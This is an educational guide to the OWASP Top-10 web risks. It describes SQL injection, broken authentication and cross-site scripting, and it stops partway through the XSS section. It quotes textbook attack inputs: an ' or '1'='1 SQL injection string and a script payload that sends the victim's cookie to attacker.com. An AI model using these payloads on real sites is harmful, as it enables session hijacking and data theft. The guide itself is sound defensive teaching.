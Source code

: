 # Critical Security Areas
In this guide will talk about why Web security is so important and will understand primary risks that exposes website to attackers. [Daily DDos attacks](http://www.digitalattackmap.com/#anim=1&color=0&country=ALL&list=0&time=17033&view=map). Will look into OWASP Top-10 security risks and preventive measures to mitigate attacks.

### About OWASP

The __Open Web Application Security Project__ (OWASP) is a _non-profit_ educational
charity dedicated to enabling organizations to design, develop, acquire, operate, and maintain
secure software.[OWASP-Org](https://www.owasp.org)

OWASP is not affiliated with any technology company. Similar to many open­source software projects, OWASP produces many types of materials in a collaborative and open way. All OWASP tools, documents, forums, and chapters are free and open to
anyone interested in improving application security.

### Introduction to Websecurity risk

![description](https://raw.githubusercontent.com/pluralsight/guides/master/images/2bb93931-db94-4cf4-ac6d-82eb3dd560f4.jpg)

Websites and Web-Servers are prone to security risks and [threats](https://en.wikipedia.org/wiki/Web_threat) due to insecure software and lack of security principles. In recent years a range of different companies have suffered online attacks, including finance, defense, healthcare and other critical organisations worldwide. [Live Online-attacks](http://map.norsecorp.com/#/)

The goal of the OWASP  is to raise awareness about web application security by describing the most important areas of concern that software developers must be aware of.




### What are the [Top-10](https://www.owasp.org/index.php/Top_10_2013-Top_10) Vulnerablities ?

1. SQL-Injection
2. Broken Authentication and Session Management
3. Cross-Site Scripting (XSS)
4. Insecure Direct Object References
5. Security Misconfiguration
6. Sensitive Data Exposure
7. Missing Function Level Access Control
8. Cross-Site Request Forgery (CSRF)
9. Using Components with Known Vulnerabilities
10. Unvalidated Redirects and Forwards

We will cover each and every risk in detail below.

### __1. SQL-Injection__


![description](https://raw.githubusercontent.com/pluralsight/guides/master/images/c73b8611-3b98-4932-a81a-eedfa0fcaa05.png)


SQL injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements (_malicious payload_) that control a web application's database server.

A successful SQL injection can read sensitive data from the database, modify database, execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases can issue commands to the operating system.


Exploitability | Prevalence | Detectability | Impact
------------------- | -------------------- | ------------
EASY | COMMON   | AVERAGE |SEVERE

**Example Scenario :**
The application uses untrusted data in the construction of the following vulnerable SQL call:
```
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";
```
In this case the attacker modifies the ‘id’ parameter value in browser to send `' '` or `'1'='1`
For ex :
```
http://example.com/app/accountView?id=' or '1'='1
```
This changes the meaning of both query to return all the records from the accounts table.

**Preventive Measures **
1. Keep untrusted data separate from commands and queries..
2. Use a safe API which avoids the use of the interpreter entirely or provides a parameterized interface.
3. If a parameterized API is not available, you should carefully escape special characters using the specific escape syntax for that interpreter.


### **2. Broken Authentication and Session Management**


![description](https://raw.githubusercontent.com/pluralsight/guides/master/images/a6b69ff8-4d55-4d65-b775-ac987112de7a.png)


Application functions related to authentication and session management are often not implemented correctly. This allows attackers to compromise passwords, keys, or session tokens.

These kinds of flaws can be extremely serious in web applications and put businesses at a very high risk to not only lose confidential data but to open back doors to the entire company to maliscious attackers. 

Exploitability | Prevalence | Detectability | Impact
------------------- | -------------------- | ------------
AVERAGE | WIDESPREAD   | AVERAGE |SEVERE

**Example scenario** :  Session timeouts aren’t set properly. User uses a public computer to access site. Instead of selecting _“logout”_ the user simply closes the browser tab and walks away. Attacker can use the same browser an hour later, and that browser is still authenticated.

**Preventive Measures **
1. A single set of strong authentication and session management controls should be implemented.
2. Strong efforts should also be made to avoid XSS flaws which can be used to steal session IDs.
3. Proper application session timeout should be implemented.
4. Consider the [ESAPI Authenticator and User APIs](http://owasp-esapi-java.googlecode.com/svn/trunk_doc/latest/org/owasp/esapi/Authenticator.html) as good examples.


### **3. Cross-Site Scripting (XSS)**

![description](https://raw.githubusercontent.com/pluralsight/guides/master/images/cf94e0ae-5a50-4830-9d44-66ffe0cdcfff.png)


Cross-site scripting flaws occur whenever an application takes untrusted data and sends it to a web browser without proper validation or escaping. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.


Exploitability | Prevalence | Detectability | Impact
------------------- | -------------------- | ------------
AVERAGE | VERY WIDESPREAD   | EASY | MODERATE

**Example scenario** : The application uses untrusted data in the construction of the following HTML snippet without validation or escaping
```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
The attacker modifies the 'CC' parameter in their browser to:
```
'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.
```
This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.


**Preventive Measures **

1. 




















